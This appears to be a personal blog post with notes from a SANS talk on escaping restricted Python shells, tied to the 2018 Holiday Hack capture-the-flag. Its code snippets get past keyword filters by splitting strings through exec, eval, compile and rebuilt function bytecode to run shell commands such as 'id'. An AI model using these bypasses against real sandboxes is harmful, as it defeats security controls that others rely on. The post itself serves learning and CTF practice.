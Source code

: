 ```yaml
---
title: "Notes on Escaping Python Shells"
date: 2019-01-19T22:29:43-05:00
draft: false
toc: true
comments: true
categories:
- Python
---
```


During the [SANS Holiday Hack Challenge 2018]({{< relref "post/2019/2019-01-15-sans-holiday-hack-2018" >}} "SANS Holiday Hack Challenge 2018"), I viewed a talk by [Mark Baggett](https://twitter.com/markbaggett) about escaping Python shells. These are my notes.

* Talk: https://www.youtube.com/watch?v=ZVx2Sxl3B9c
* Code: https://gist.github.com/MarkBaggett/dd440362f8a443d644b913acadff9499

It's part of [SANS SEC573: Automating Information Security with Python](https://www.sans.org/course/automating-information-security-with-python) which looks interesting. Although, I am Go fanatic and will probably will never be able to afford to course anyways. Creating a Go version of the course sounds fun.

<!--more-->

# Overwrite/Reload Python Modules
Overwrite them in memory:

``` python
import sys
sys.modules['os'].system = lamba *x,**y:"STOP HACKING"
del sys

# now if I want to run it
import os
os.system("ls")
# I get stop hacking
'STOP HACKING'
```

To defeat, we can reload them in Python 3 with `importlib`

``` python
import importlib
importlib.reload(os)
```

# Python as Child Process
Python interpreter is launched as a child process and then keywords are filtered with `readfunc()`.

## exec
Executes Python code that does not return a result. Break the statements into pieces and run them.

``` python
exec("imp" + "ort os")
os.system("id")
```

## eval
Executes Python code that returns a result.

``` python
os = eval('__im' + 'port__("os")')  # __import__("os")
os.system("id")
```

## compile
Turns a string into bytecode.

``` python
code = compile("im" + "port os", "", "single") # single means only compile this single line.

# now we need to execute it
# make a function that does nothing
def a():
    return

# and overwrite it
a.__code__ = code

# execute it
a()

# now os should be imported
os.system("id")
```

## exec, eval, import and compile are blocked
Go to a different Python interpreter, make the function you want. Interpreter versions should somewhat match (e.g. both 2.7 or 3.5):

``` python
def bypass():
    import os
    print(os.system("id"))
```

Paste `make_object.py` from https://gist.github.com/MarkBaggett/dd440362f8a443d644b913acadff9499#file-make_object-py this function into the 2nd interpreter:

``` python
import sys
def makeobject(afunction):
   print("Generating a function for version {}.{} (same version as this machine)".format(sys.version_info.major, sys.version_info.minor))
   newstr = ""
   newstr += "def a():\n"
   newstr += "   return\n\n"
   if sys.version_info.major == 2:
       co = afunction.__code__
       if sys.version_info.minor not in [5,6,7]:
           print("This code has not been tested on this version of python.  It may not work.")
       newstr += "a.__code__ = type(a.__code__)({0},{1},{2},{3},'{4}',{5},{6},{7},'{8}','{9}',{10},'{11}')".format( co.co_argcount, co.co_nlocals, co.co_stacksize, co.co_flags, co.co_code.encode("string_escape"),co.co_consts, co.co_names, co.co_varnames, co.co_filename, str(co.co_name), co.co_firstlineno, co.co_lnotab.encode("string_escape"))
   elif sys.version_info.major == 3:
       co = afunction.__code__
       if sys.version_info.minor not in [5]:
           print("This code has not been tested on this version of python.  It may not work.")
       newstr += "a.__code__ = type(a.__code__)({0},{1},{2},{3},{4},{5},{6},{7},{8},'{9}','{10}',{11},{12})".format( co.co_argcount, co.co_kwonlyargcount, co.co_nlocals, co.co_stacksize, co.co_flags, co.co_code,co.co_consts, co.co_names, co.co_varnames, co.co_filename, str(co.co_name), co.co_firstlineno, co.co_lnotab)
   else:
       print("This version of python is not tested and may not work")
   print(newstr)
```

Now call `makeobject(bypass)` to get the bytecode for it. It gives a string that can be copy/pasted into the remote system. It will create a function called `a` and then bytecode for it that does what `bypass` does. Might need to break the keywords into a string again (e.g. `"import"` to `"im" + "port"`).

Unsurprisingly, the challenge used this method. See my solution to [Python Escape from LA]({{< relref "post/2019/2019-01-15-sans-holiday-hack-2018/index.markdown#python-escape-from-la" >}} "Python Escape from LA").